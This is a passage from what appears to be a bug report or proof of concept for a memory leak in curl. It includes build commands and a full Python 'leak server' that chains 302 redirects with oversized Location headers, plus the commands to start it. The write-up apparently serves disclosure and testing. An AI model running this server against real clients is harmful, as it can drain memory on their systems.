 ```
make -j$(nproc)
chmod +x curl-config
```
**Prepare the malicious HTTP server (Python PoC server)**:
**Create a Python script named leak_server.py in the root of the curl directory**:
```
nano leak_server.py
```
**Paste the following Python code into leak_server.py**:
```
from http.server import BaseHTTPRequestHandler, HTTPServer
import sys

class LeakHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        path = self.path
        sys.stderr.write(f"Received request for: {path}\n")

        # Number of redirects to perform before stopping
        max_redirects = 1000 # Adjust this value as needed for more/less leak

        try:
            current_redirect_count = int(path.split('/')[-1])
        except ValueError:
            current_redirect_count = 0

        if current_redirect_count < max_redirects:
            next_redirect_count = current_redirect_count + 1
            # Create a long Location header for maximum leak per redirect
            long_location = f"/redirect/{next_redirect_count}" + "A" * 1000 # Appends 1000 'A' characters
            
            self.send_response(302) # HTTP 302 Found (Temporary Redirect)
            self.send_header('Location', long_location)
            self.send_header('Content-Length', '0') # No body for redirect response
            self.end_headers()
            sys.stderr.write(f"Redirecting to: {long_location}\n")
        else:
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(b"Reached max redirects. Done.")
            sys.stderr.write("Reached max redirects. Serving final content.\n")

def run_server(port=8000):
    server_address = ('', port)
    httpd = HTTPServer(server_address, LeakHandler)
    sys.stderr.write(f"Starting leak server on port {port}\n")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```
**Run the malicious HTTP server**:
Open a new terminal (keep it separate).
Navigate to the curl root directory:
```
cd /home/kali/curl # Adjust path if different
```
Start the server in the background, redirecting its output to server.log:
```
nohup python3 leak_server.py > server.log 2>&1 &
```
Execute curl to trigger the memory leak using Valgrind:
Open a new terminal (keep it separate from the server's terminal).